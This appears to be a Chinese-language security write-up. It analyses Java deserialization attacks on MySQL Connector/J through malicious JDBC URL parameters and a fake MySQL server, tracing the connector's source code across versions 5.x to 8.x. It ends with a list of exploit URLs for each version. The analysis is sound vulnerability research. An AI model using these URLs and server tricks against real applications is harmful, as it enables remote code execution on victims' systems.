




BlackHat Europe 2019 上由 Back2Zero 团队提出，
- PPT：eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf
- 视频：New Exploit Technique In Java Deserialization Attack - YouTube
8.x 版本分析
分析环境
如果 JDBC 的 URL 可控，可通过如下 URL 配合伪造的 MySQL 服务器，返回恶意数据进行反序列化漏洞的利用。
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc";其中利用了两个参数：
- queryInterceptors 参数是一个查询拦截器，可以定义多个类『由逗号分隔』组成
pipeline，在查询的前后进行拦截从而改变结果或进行统计等自定义操作。 - autoDeserialize 参数表示是否自动识别并反序列化存放中 BLOB 字段的数据。
拦截器需要实现 com.mysql.cj.interceptors.QueryInterceptor 接口，内部共有 5 个。
com.mysql.cj.interceptors.NoSubInterceptorWrappercom.mysql.cj.jdbc.ha.LoadBalancedAutoCommitInterceptorcom.mysql.cj.jdbc.interceptors.ResultSetScannerInterceptorcom.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptorcom.mysql.cj.jdbc.interceptors.SessionAssociationInterceptor
Back2Zero 的分享中，借助的是 ServerStatusDiffInterceptor，在 preProcess/postProcess 方法中都会调用 populateMapWithSessionStatusValues 方法 [1] & [2]
public <T extends Resultset> T preProcess(Supplier<String> sql, Query interceptedQuery) {
populateMapWithSessionStatusValues(this.preExecuteValues); // [1]
return null; // we don't actually modify a result set
}
@Override
public <T extends Resultset> T postProcess(Supplier<String> sql, Query interceptedQuery, T originalResultSet, ServerSession serverSession) {
populateMapWithSessionStatusValues(this.postExecuteValues); // [2]
this.log.logInfo("Server status change for query:\n" + Util.calculateDifferences(this.preExecuteValues, this.postExecuteValues));
return null; // we don't actually modify a result set
}populateMapWithSessionStatusValues 方法中进一步调用 ResultSetUtil#resultSetToMap [3]
private void populateMapWithSessionStatusValues(Map<String, String> toPopulate) {
java.sql.Statement stmt = null;
java.sql.ResultSet rs = null;
try {
try {
toPopulate.clear();
stmt = this.connection.createStatement();
rs = stmt.executeQuery("SHOW SESSION STATUS");
ResultSetUtil.resultSetToMap(toPopulate, rs); // [3]
// ...
}而 resultSetToMap 中会调用 getObject 方法，
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
while (rs.next()) {
mappedValues.put(rs.getObject(1), rs.getObject(2));
}
}ResultSetImpl
在这里为 com.mysql.cj.jdbc.result.ResultSetImpl#getObject 方法，如果返回的查询结果中类型为 BIT [4]，或 BLOB [5]，并且设置了 autoDeserialize 为 true [6]，那么会对返回的数据进行反序列化 [7]。
public Object getObject(int columnIndex) throws SQLException {
checkRowPos();
checkColumnBounds(columnIndex);
int columnIndexMinusOne = columnIndex - 1;
// we can't completely rely on code below because primitives have default values for null (e.g. int->0)
if (this.thisRow.getNull(columnIndexMinusOne)) {
return null;
}
Field field = this.columnDefinition.getFields()[columnIndexMinusOne];
switch (field.getMysqlType()) {
case BIT: // [4]
// TODO Field sets binary and blob flags if the length of BIT field is > 1; is it needed at all?
if (field.isBinary() || field.isBlob()) { // [5]
byte[] data = getBytes(columnIndex);
if (this.connection.getPropertySet().getBooleanReadableProperty(PropertyDefinitions.PNAME_autoDeserialize).getValue()) { // [6]
Object obj = data;
if ((data != null) && (data.length >= 2)) {
if ((data[0] == -84) && (data[1] == -19)) {
// Serialized object?
try {
ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
ObjectInputStream objIn = new ObjectInputStream(bytesIn);
obj = objIn.readObject(); // [7]
objIn.close();
bytesIn.close();
} catch (ClassNotFoundException cnfe) {
throw SQLError.createSQLException(Messages.getString("ResultSet.Class_not_found___91") + cnfe.toString()
+ Messages.getString("ResultSet._while_reading_serialized_object_92"), getExceptionInterceptor());
} catch (IOException ex) {
obj = data; // not serialized?
}
} else {
return getString(columnIndex);
}
}
return obj;
}
return data;
}
return field.isSingleBit() ? Boolean.valueOf(getBoolean(columnIndex)) : getBytes(columnIndex);ServerStatusDiffInterceptor
想要触发拦截器，要满足两个条件：
- 为当前会话设置
queryInterceptors - 发起查询 “
queryInterceptors 的设置位于 ConnectionImpl#connectOneTryOnly，在连接建立后进行设置。
private void connectOneTryOnly(boolean isForReconnect) throws SQLException {
Exception connectionNotEstablishedBecause = null;
try {
JdbcConnection c = getProxy();
this.session.connect(this.origHostInfo, this.user, this.password, this.database, DriverManager.getLoginTimeout() * 1000, c);
// save state from old connection
boolean oldAutoCommit = getAutoCommit();
int oldIsolationLevel = this.isolationLevel;
boolean oldReadOnly = isReadOnly(false);
String oldCatalog = getCatalog();
this.session.setQueryInterceptors(this.queryInterceptors);ServerStatusDiffInterceptor 虽然是拦截器，但是需要发起查询，才会触发 preProcess/postProcess 方法。而在 8.x 的 MySQL Connector 中，Connector 成功建立连接后『完成认证』，会有一些默认执行的查询语句。
SELECT @@session.auto_increment_increment AS auto_increment_increment, @@character_set_client AS character_set_client, @@character_set_connection AS character_set_connection, @@character_set_results AS character_set_results, @@character_set_server AS character_set_server, @@collation_server AS collation_server, @@collation_connection AS collation_connection, @@init_connect AS init_connect, @@interactive_timeout AS interactive_timeout, @@license AS license, @@lower_case_table_names AS lower_case_table_names, @@max_allowed_packet AS max_allowed_packet, @@net_write_timeout AS net_write_timeout, @@performance_schema AS performance_schema, @@sql_mode AS sql_mode, @@system_time_zone AS system_time_zone, @@time_zone AS time_zone, @@transaction_isolation AS transaction_isolation, @@wait_timeout AS wait_timeout // [13]
SET character_set_results = NULL
SET autocommit=1如下图

如何触发
不过其中只有 SET autocommit=1 会触发 QueryInterceptor ，原因是，SET autocommit=1 是通过 execSQL 方法执行的 [8]。
// ConnectionImpl#setAutoCommit
public void setAutoCommit(final boolean autoCommitFlag) throws SQLException {
// ...
// this internal value must be set first as failover depends on it being set to true to fail over (which is done by most app servers and
// connection pools at the end of a transaction), and the driver issues an implicit set based on this value when it (re)-connects to a
// server so the value holds across connections
this.session.getServerSession().setAutoCommit(autoCommitFlag);
if (needsSetOnServer) {
this.session.execSQL(null, autoCommitFlag ? "SET autocommit=1" : "SET autocommit=0", -1, null, false, this.nullStatementResultSetFactory,
this.database, null, false); // [8]该方法会进一步调用至 sendQueryPacket，其中会调用 invokeQueryInterceptorsPre 执行 Interceptor [9]，
public final <T extends Resultset> T sendQueryPacket(Query callingQuery, NativePacketPayload queryPacket, int maxRows, boolean streamResults,
String catalog, ColumnDefinition cachedMetadata, GetProfilerEventHandlerInstanceFunction getProfilerEventHandlerInstanceFunction,
ProtocolEntityFactory<T, NativePacketPayload> resultSetFactory) throws IOException {
this.statementExecutionDepth++;
byte[] queryBuf = null;
int oldPacketPosition = 0;
long queryStartTime = 0;
long queryEndTime = 0;
queryBuf = queryPacket.getByteBuffer();
oldPacketPosition = queryPacket.getPosition(); // save the packet position
queryStartTime = getCurrentTimeNanosOrMillis();
LazyString query = new LazyString(queryBuf, 1, (oldPacketPosition - 1));
try {
if (this.queryInterceptors != null) {
T interceptedResults = invokeQueryInterceptorsPre(query, callingQuery, false); // [9]
需要注意的是，invokeQueryInterceptorsPre 有两个重载方法，[9] 最终会调用 preProcess『它也有两个重载』
<T extends Resultset> T preProcess(Supplier<String> sql, Query interceptedQuery);而前两个查询，则是直接通过 NativeSession#sendCommand **[10] & [11] **
以下两个方法都位于
NativeSession
public void setSessionVariables() {
String sessionVariables = getPropertySet().getStringReadableProperty(PropertyDefinitions.PNAME_sessionVariables).getValue();
if (sessionVariables != null) {
List<String> variablesToSet = new ArrayList<>();
for (String part : StringUtils.split(sessionVariables, ",", "\"'(", "\"')", "\"'", true)) {
variablesToSet.addAll(StringUtils.split(part, ";", "\"'(", "\"')", "\"'", true));
}
if (!variablesToSet.isEmpty()) {
StringBuilder query = new StringBuilder("SET ");
String separator = "";
for (String variableToSet : variablesToSet) {
if (variableToSet.length() > 0) {
query.append(separator);
if (!variableToSet.startsWith("@")) {
query.append("SESSION ");
}
query.append(variableToSet);
separator = ",";
}
}
sendCommand(this.commandBuilder.buildComQuery(null, query.toString()), false, 0); // [10]
}
}
}
public boolean configureClientCharacterSet(boolean dontCheckServerMatch) {
// ...
try {
characterSetAlreadyConfigured = true;
configureCharsetProperties();
realJavaEncoding = this.characterEncoding.getValue(); // we need to do this again to grab this for versions > 4.1.0
// ...
if (realJavaEncoding != null) {
// Now, inform the server what character set we will be using from now-on...
if (realJavaEncoding.equalsIgnoreCase("UTF-8") || realJavaEncoding.equalsIgnoreCase("UTF8")) {
// charset names are case-sensitive
boolean useutf8mb4 = CharsetMapping.UTF8MB4_INDEXES.contains(this.protocol.getServerSession().getServerDefaultCollationIndex());
if (!this.useOldUTF8Behavior.getValue()) {
if (dontCheckServerMatch || !this.protocol.getServerSession().characterSetNamesMatches("utf8")
|| (!this.protocol.getServerSession().characterSetNamesMatches("utf8mb4"))) {
sendCommand(this.commandBuilder.buildComQuery(null, "SET NAMES " + (useutf8mb4 ? "utf8mb4" : "utf8")), false, 0); // [11]NativeProtocol#sendCommand 方法也会调用 invokeQueryInterceptorsPre，但注意它只有两个参数 [12]
@Override
public final NativePacketPayload sendCommand(Message queryPacket, boolean skipCheck, int timeoutMillis) {
int command = queryPacket.getByteBuffer()[0];
this.commandCount++;
if (this.queryInterceptors != null) {
NativePacketPayload interceptedPacketPayload = (NativePacketPayload) invokeQueryInterceptorsPre(queryPacket, false); // [12]
// ...而该 invokeQueryInterceptorsPre 内部最后调用的是另一个 preProcess，ServerStatusDiffInterceptor 并没有实现它。
default <M extends Message> M preProcess(M queryPacket) {
return null;
}伪造服务端
复现该漏洞利用方式，需要伪造一个 MySQL 服务返回恶意的 BLOB 类型数据，根据 [4] & [5] 处的判断条件，数据的类型需要为 MYSQL_TYPE_BIT，标志需要为 BLOB 或 BINARY。
这里在写服务端代码的时候，
Handshake后返回[13]查询结果时没有正确设置表名，列名，导致虽然返回结果，但是Connector无法读取到Timezone，从而在ResultSetImpl的构造方法中[14]引发了NullPointerException。
public ResultSetImpl(ResultsetRows tuples, JdbcConnection conn, StatementImpl creatorStmt) throws SQLException {
// ...
// this.session.getServerSession().getDefaultTimeZone() is null
this.defaultTimeValueFactory = new SqlTimeValueFactory(pset, null, this.session.getServerSession().getDefaultTimeZone(), this); // [14]下面使用 CommonsCollections5 进行利用，客户端代码如下：
public void serialTest() throws ClassNotFoundException, SQLException {
String driver = "com.mysql.cj.jdbc.Driver";
String DB_URL =
"jdbc:mysql://127.0.0.1:"
+ port
+ "/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
Class.forName(driver);
Connection conn = DriverManager.getConnection(DB_URL, server.getUser(), server.getPassword());
}启动恶意服务后，运行客户端，成功执行命令。

5.x 版本分析
分析环境
此版本没有 queryInterceptors 参数，但是可以确定的是，漏洞的触发点是 Util.resultSetToMap。所以需要找到一个 Source 让数据流能够到达这里，在 5.x 中有另一个参数
detectCustomCollations
- detectCustomCollations：此参数表示
Connector是否要查找位于服务器上的charsets/collations，从5.1.29版本开始，默认为false
而此参数对应的调用逻辑位于 com.mysql.jdbc.ConnectionImpl#buildCollationMapping
private void buildCollationMapping() throws SQLException {
HashMap<Integer, String> javaCharset = null;
if (this.versionMeetsMinimum(4, 1, 0)) {
// ...
try {
if (sortedCollationMap == null) {
// ...
results = stmt.executeQuery("SHOW COLLATION");
Util.resultSetToMap(sortedCollationMap, results, 3, 2); // [15]在 [15] 中调用 Util.resultSetToMap 处理 SHOW COLLATION 的查询结果。
此利用方式由
chybeta发现。
注意其中的利用条件，服务器版本大于 4.1.0，并且需要设置 autoDeserialize=true。detectCustomCollations 参数 在 5.1.19 - 5.1.28 版本中默认为 true。下面进行利用。
伪造服务端
测试版本 MySQL JDBC Connector 5.1.28
在执行 SHOW COLLATION 前依次执行了以下语句，
/* mysql-connector-java-5.1.19 ( Revision: tonci.grgin@oracle.com-20111003110438-qfydx066wsbydkbw ) */SHOW VARIABLES WHERE Variable_name ='language' OR Variable_name = 'net_write_timeout' OR Variable_name = 'interactive_timeout' OR Variable_name = 'wait_timeout' OR Variable_name = 'character_set_client' OR Variable_name = 'character_set_connection' OR Variable_name = 'character_set' OR Variable_name = 'character_set_server' OR Variable_name = 'tx_isolation' OR Variable_name = 'transaction_isolation' OR Variable_name = 'character_set_results' OR Variable_name = 'timezone' OR Variable_name = 'time_zone' OR Variable_name = 'system_time_zone' OR Variable_name = 'lower_case_table_names' OR Variable_name = 'max_allowed_packet' OR Variable_name = 'net_buffer_length' OR Variable_name = 'sql_mode' OR Variable_name = 'query_cache_type' OR Variable_name = 'query_cache_size' OR Variable_name = 'init_connect'
/* mysql-connector-java-5.1.19 ( Revision: tonci.grgin@oracle.com-20111003110438-qfydx066wsbydkbw ) */SELECT @@session.auto_increment_increment对于第一个查询，伪造服务器时，返回一个 RowSet 为空的的响应包即可。对于第二个请求，需要返回符合格式要求的数据，返回数字 1 即可。

伪造响应时需要注意内容符合 ResultSetImpl#getObject 方法的要求
[16]：传入的columnIndex = 3，返回的数据中，列定义数量不能少于 3[17]：第3列的类型需要为MYSQL_TYPE_BIT[18]：第3列标志位需要为BIN或者BLOB
public Object getObject(int columnIndex) throws SQLException {
this.checkRowPos();
this.checkColumnBounds(columnIndex); // [16]
int columnIndexMinusOne = columnIndex - 1;
if (this.thisRow.isNull(columnIndexMinusOne)) {
this.wasNullFlag = true;
return null;
} else {
this.wasNullFlag = false;
Field field = this.fields[columnIndexMinusOne];
String stringVal;
switch (field.getSQLType()) {
// ...
case -2: // [17]
if (field.getMysqlType() == 255) {
return this.getBytes(columnIndex);
} else if (!field.isBinary() && !field.isBlob()) {
return this.getBytes(columnIndex);
} else { // [18]
byte[] data = this.getBytes(columnIndex);
if (!this.connection.getAutoDeserialize()) {
return data;
} else {
// ...客户端代码如下
public void serialTest5128() throws ClassNotFoundException, SQLException {
String driver = "com.mysql.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:" + port + "/test?autoDeserialize=true";
Class.forName(driver);
Connection conn =
DriverManager.getConnection(DB_URL, server.getUser(), server.getPassword());
}发送请求后成功执行命令

利用方式总结
fnmsd 总结的各个版本可用的 URL
ServerStatusDiffInterceptor 触发：
8.x
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor6.x
属性名不同，变更为 statementInterceptors
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor5.1.11 - 5.x
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
5.1.10及以下的5.1.X版本：同上，但是需要连接后执行查询。
5.0.x
没有 ServerStatusDiffInterceptor，不可利用。
detectCustomCollations 触发：
5.1.41 - 5.1.x
不可用
5.1.29 - 5.1.40
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true5.1.19 - 5.1.28
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true
5.1.x - 5.1.18
不可用
5.0.x
不可用